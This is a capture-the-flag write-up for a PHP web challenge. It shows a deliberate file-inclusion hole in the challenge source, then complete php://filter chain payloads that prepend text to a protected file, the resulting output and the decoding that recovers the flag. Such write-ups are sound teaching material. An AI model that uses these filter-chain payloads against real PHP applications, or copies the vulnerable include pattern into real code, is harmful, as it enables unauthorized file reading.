 ![image](https://user-images.githubusercontent.com/75846902/212584342-6b9749c9-3061-40b6-8365-c2b98b9e73a0.png)

Source:
```
<?php if (isset($_GET['source'])) highlight_file(__FILE__) && die() ?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="assets/style.css">
    <title>The idek Times</title>
</head>
<body>

<main>
    <nav>
        <h1>The idek Times</h1>
    </nav>

    <?php

        error_reporting(0);
        set_include_path('articles/');

        if (isset($_GET['p'])) {
            $article_content = file_get_contents($_GET['p'], 1);

            if (strpos($article_content, 'PREMIUM') === 0) {
                die('Thank you for your interest in The idek Times, but this article is only for premium users!'); // TODO: implement subscriptions
            }
            else if (strpos($article_content, 'FREE') === 0) {
                echo "<article>$article_content</article>";
                die();
            }
            else {
                die('nothing here');
            }
        }
           
    ?>
```

```
PREMIUM - idek{REDACTED}
```


![image](https://user-images.githubusercontent.com/75846902/212588644-5714ae2a-c634-44a5-83ac-e08ea025fea2.png)

Given that we can only read files that start with "FREE" we can use the php:// scheme to use filters that allow us to modify the flag file 
so we can prepend the "FREE" string. To do this I've used the following tool(notice the two spaces after FREE):

```
https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html

->$ ./php_filter_chain_generator.py --chain 'FREE '
[+] The following gadget chain will generate the following code : FREE  (base64 value: RlJFRSA)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```
![image](https://user-images.githubusercontent.com/75846902/212595932-5fd4fa86-dd90-4ad7-b371-44ab14241266.png)

```
FREE�B�5$TԕT���FV��F�F��U�E�7V'65##�u�C��W%��7w5�W"����>==�@C������>==�@
```

decode.php
```
<?php
$flag_content = file_get_contents("flag.txt");
echo bin2hex($flag_content)."\n";
?>
```

```
01b2429435052454d49554d202d206964656b7b5468346e6b5f555f345f5375627363523162316e675f74305f6f75725f6e33777350485061706572217d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f
```

Then removed the first 0, so we have:
```
1b2429435052454d49554d202d206964656b7b5468346e6b5f555f345f5375627363523162316e675f74305f6f75725f6e33777350485061706572217d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f
```
![image](https://user-images.githubusercontent.com/75846902/212599505-60bc680b-fd00-4448-90f1-b7ee199abb15.png)
![image](https://user-images.githubusercontent.com/75846902/212599600-4cfd7a45-8953-4a52-a704-42e7b27f6c48.png)

```
$)CPREMIUM - idek{Th4nk_U_4_SubscR1b1ng_t0_our_n3wsPHPaper!}€@CàÐÐø�ô�ô>�=�=€@CàÐÐø�ô�
```

[OtherWay]

```
python3 php_filter_chain_generator.py --rawbase64 "FREE"
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|/resource=php://temp
```
![image](https://user-images.githubusercontent.com/75846902/212599972-51276953-4d0c-468e-9b6e-bbc6184ccb23.png)
![image](https://user-images.githubusercontent.com/75846902/212600001-948e073a-461c-4469-b409-204c3e817d21.png)

```
->$ echo "GyQpQ1BSRU1JVU0gLSBpZGVre1RoNG5rX1VfNF9TdWJzY1IxYjFuZ190MF9vdXJfbjN3c1BIUGFwZXIhfQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+AD0APQ-" | base64 --decode
PREMIUM - idek{Th4nk_U_4_SubscR1b1ng_t0_our_n3wsPHPaper!}base64: invalid input
```



